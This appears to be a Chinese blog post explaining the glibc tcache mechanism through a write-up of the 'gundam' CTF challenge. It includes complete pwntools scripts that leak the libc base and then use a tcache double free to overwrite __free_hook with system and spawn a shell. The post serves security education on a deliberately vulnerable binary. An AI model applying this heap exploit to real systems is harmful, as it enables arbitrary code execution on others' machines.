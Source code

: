 ```yaml
---
layout:     post
title:      Tcache机制介绍
subtitle:    tcache
date:       2019-1-15
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 安全
---
```



> tcache介绍



libc2.26之后增加了tcache机制

这是大佬写的介绍，我自己还有测试 T_T

http://p4nda.top/2018/03/20/tcache/

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/tcache_attack/

https://www.anquanke.com/post/id/104760

下面的题目是一道具体的tcache利用。

# gundam题目解析

![](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1547557808506.png)

保护全开

首先运行题目，

```shell
root@VM-0-13-ubuntu:/home/ubuntu/hitbctf/gundam # ./gundam 

1 . Build a gundam 
2 . Visit gundams 
3 . Destory a gundam
4 . Blow up the factory
5 . Exit

Your choice : 
```

main函数如图，

![1547557851256](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1547557854305.png)

进行测试

![1547699993732](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/7699996599.png)

![1547699952444](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/5C1547699958781.png)

而destoy函数如图

![1547702466267](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/2468327.png)

他并没有把结构体给free掉，

![1547703262626](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/262626.png)

而我们的blow up函数，是用来free上边的块的

![1547734299758](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/734299758.png)

首先获得libc的地址

这个不管libc的版本是否大于2.26都可以运行。

```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)
else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')
for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
```



完整的脚本如图，如果libc<2.26则会报double free的错误。

 ```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)

else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')

for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
print '[*] system:',hex(libc.symbols['system'])
for i in range(0,8):
        destroy(i)
blow()
build('p4nda',1) #0
build('/bin/sh\0',1) #0 1
build('p4nda',1) #0
destroy(0)
destroy(0)
pause()

build(p64(libc.symbols['__free_hook']),1)# 0 1 2
pause()
build('AAAAAAAA',1)
pause()
build(p64(libc.symbols['system']),1)
pause()
destroy(1)

p.interactive()
 ```

